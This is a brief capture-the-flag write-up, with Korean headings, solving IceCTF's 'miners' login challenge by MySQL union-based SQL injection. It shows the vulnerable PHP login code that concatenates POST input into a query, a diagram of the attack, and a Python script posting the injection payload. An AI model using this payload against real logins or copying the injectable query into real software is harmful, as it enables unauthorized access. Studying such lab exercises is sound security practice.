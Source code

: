 ============================================================================================================
[IceCTF] Solve
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

취약점 존재 여부 확인
================================================================================================================

- POST 로그인 페이지 취약점
- POST 파라미터: username, password
- MySQL, Union Select Injection
- information_schema

.. code-block:: php

    <?php
    include "config.php";
    $con = mysqli_connect($MYSQL_HOST, $MYSQL_USER, $MYSQL_PASS, $MYSQL_DB);
    $username = $_POST["username"];
    $password = $_POST["password"];
    $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
    $result = mysqli_query($con, $query);

    if (mysqli_num_rows($result) !== 1) {
      echo "<h1>Login failed.</h1>";
    } else {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    }

    ?>

|

login success
================================================================================================================


.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "http://miners.vuln.icec.tf/login.php"

    payload = {
        "username": "' union select 1,2,info from information_schema.processlist-- -",
        "password": "1",
    }

    r = requests.post(url, data=payload, verify=False)

    print r.content

|